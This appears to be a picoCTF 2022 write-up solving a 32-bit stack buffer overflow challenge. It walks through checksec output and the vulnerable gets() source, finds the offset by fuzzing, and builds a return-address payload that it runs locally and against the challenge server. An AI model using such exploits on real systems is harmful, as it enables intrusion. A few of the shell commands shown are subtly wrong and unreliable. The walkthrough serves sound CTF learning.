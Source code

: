 ```yaml
---
title: picoCTF 2022 - Buffer Overflow 1 
tags: [pico22, bof, pwn]
---
```


Let's gather some information before attempting to execute the binary

```bash
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=96273c06a17ba29a34bdefa9be1a15436d5bad81, for GNU/Linux 3.2.0, not stripped

$ pwn checksec vuln
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

We have a 32 bit ELF dynamically liked and not stripped. There's also no canary stack protection. Let's check the source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

We can clearly see that inside the `vuln()` function is used the `gets()` function that is notoriously vulnerable to buffer overflow. The buffer is 32 bytes long so with an input greater than that the program will write memory spaces over the buffer limits.

```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

We can also see that there's another function, that is never called, that prints out the flag

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

With a buffer overflow we can overwrite the return address with the `win()` function address, and when the current function ends, the program will jump to it.

We can execute the binary and check its behaviour with inputs greater than 32 bytes.


```bash
$ python -c "print("A" * 32)" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x804932f

$ python -c "print('A' * 36)" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x804932f

$ python -c "print('A' * 40)" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x804932f
zsh: done                python -c "print('A' * 40)" | 
zsh: segmentation fault  ./vuln
```

We can see that the program threw a segmentation fault: this indicates that the program overwritten some memory addresses that allowed it to function properly. We can also notice that the return addresses did not change. Let's try to give the program even larger inputs

```bash
$ python -c "print('A' * 44)" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x8049300
zsh: done                python -c "print('A' * 44)" | 
zsh: segmentation fault  ./vuln

$ python -c "print('A' * 48)" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
zsh: done                python -c "print('A' * 48)" | 
zsh: segmentation fault  ./vuln
```

With 48 bytes we can clearly see that the return address has been overwritten with `0x41414141` (hexadecimal representation for `AAAA`). What does this means? With 44 bytes we overwrite the stack to the very beginning of the `$eip` (return address) and each subsequent will override the register. We can confirm our hypotesis by giving the binary a 45 bytes input. If we are correct, we expect a single byte overflow

```bash
$ python -c "print('A' * 45)" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x8040041
zsh: done                python -c "print('A' * 45)" | 
zsh: segmentation fault  ./vuln
```

We can see that `$eip` was overwritten with only one `0x41`. Let's find out the `win()` function address

```bash
$ readelf -s vuln
63: 080491f6   139 FUNC    GLOBAL DEFAULT   13 win
```

We can create our payload and exploit the binary (remember to create the flag file `flag.txt` otherwise you will not see the result).

```bash
$ touch "Buffer Overflow HERE" >> flag.txt

$ python -c "print('A' * 44 + '\xf6\x91\x04\x08')" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
Buffer Overflow HERE
zsh: done                python -c "print('A'*44 + '\xf6\x91\x04\x08')" | 
zsh: segmentation fault  ./vuln
```

Works like a charm. Let's exploit the remote service and get the flag.

```bash
$ python -c "print('A' * 44 + '\xf6\x91\x04\x08')" | nc saturn.picoctf.net 51539
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_[redacted]}
```